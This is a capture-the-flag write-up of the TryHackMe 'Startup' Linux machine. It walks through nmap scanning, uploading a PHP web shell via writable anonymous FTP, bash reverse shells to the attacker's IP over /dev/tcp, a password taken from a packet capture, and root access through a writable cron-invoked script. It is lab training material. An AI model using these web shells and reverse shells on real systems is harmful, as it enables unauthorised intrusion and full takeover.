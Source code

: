 # INIT
This is an easy `linux` machine. 
I start by doing an `nmap` scan.
```
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ cat nmap/startup.nmap 
# Nmap 7.95 scan initiated Sat Aug 23 20:17:27 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oA nmap/startup 10.201.22.206
Nmap scan report for 10.201.22.206
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Aug 24 00:11 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.2.0.159
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 23 20:17:59 2025 -- 1 IP address (1 host up) scanned in 31.35 seconds
```

Here we have Anonymous ftp access. However the interesting part is the `/ftp` director has `rwx` permission for everyone! So that means, if we can find a way to execute files from this directory, we can get a reverse shell!

Doing a simple `gobuster` search, I find that there is `/files` endpoint that shows all the files/directories of the ftp root folder in the browser. So, this means we can "execute" or "access" a file via browser. 
So, let's put a `php` file and get a reverse shell!
``` 
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ cat shell.php        
<?php system($_GET['cmd']); ?>
```
The script executes the "command" it gets via the `cmd` variable. So, we open the below url in our browser, effectively executing the shell command and getting a reverse shell!
```
http://10.201.22.206/files/ftp/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.2.0.159%2F4444%200%3E%261%27
```

Remember to first open you local netcat connection: `rlwrap nc -nvlp 4444`.
# User flag
Now that I have the shell, I got to /tmp directory and run `linpeas.sh`. This gives me some interesting information such as the "odd" files found in root.
```
╔══════════╣ Unexpected in root
/vagrant
/recipe.txt
/vmlinuz.old
/vmlinuz
/incidents
/initrd.img
/initrd.img.old
```
One of these if `recipe.txt` which gives us our first flag! i.e. secret ingredient which is **LOVE**.

Moving on, I can only access the `/incidents` directory inside which I find a `pcapng`. So, I copy this to `/files/ftp` and download it on my local machine to analyze it with the help of Wireshark.
```
cp suspicious.pcapng /var/www/html/files/ftp/
```
Using Wireshark, I can see a lot of `tcp` streams, one of which has data on a "reverse shell", implying that this has been compromised before as well! Here, I find a password(`c4ntg3t3n0ughsp1c3`), which appear to be of the user `lennie`.
![[Pasted image 20250823234147.png]]

So, I go ahead an try to login as lennie via ssh and voila! we have the user flag!
```
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ ssh lennie@10.201.94.216
lennie@10.201.94.216's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.

Last login: Sun Aug 24 01:59:17 2025 from 10.2.0.159
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
lennie@startup:~$ ls
Documents  scripts  user.txt
lennie@startup:~$ 
```
# Privilege Escalation

First, let's beautify the shell a bit:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

There seems some more files in the home folder of `lennie`.
In the `scripts` folder, we see `phanner.sh`:
```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
It is essentially executing `/etc/print.sh` script. Checking this files permissions, we see it is owned by `lennie` and so we can edit it! Welp, in that case, we can simply ask this sh to give us a reverse shell and as the caller `planner.sh` is owned by root and hence run by root, we can get a root shell! Nice.
```bash
bash -c "bash -i >& /dev/tcp/10.2.0.159/4444 0>&1"
echo 'Done!'
```

I open `nc` on my local machine (`rlwrap nc -nvlp 4444`) and wait for the root to execute the script as part of its `cron` job.
We get the root shell and hence the flag!
```              
┌──(truelyyours㉿kali)-[~/tryhackme/startup]
└─$ rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.2.0.159] from (UNKNOWN) [10.201.94.216] 38774
bash: cannot set terminal process group (23921): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# 

root@startup:~# whoami
whoami
root
root@startup:~# ls
ls
root.txt
root@startup:~# ls -la
ls -la
total 28
drwx------  4 root root 4096 Nov 12  2020 .
drwxr-xr-x 25 root root 4096 Aug 24 01:56 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Nov 12  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12  2020 root.txt
drwx------  2 root root 4096 Nov 12  2020 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
root@startup:~# 
```

Congratulations 🎉😎!
Treat yourself to a glass of crisp God's nector!
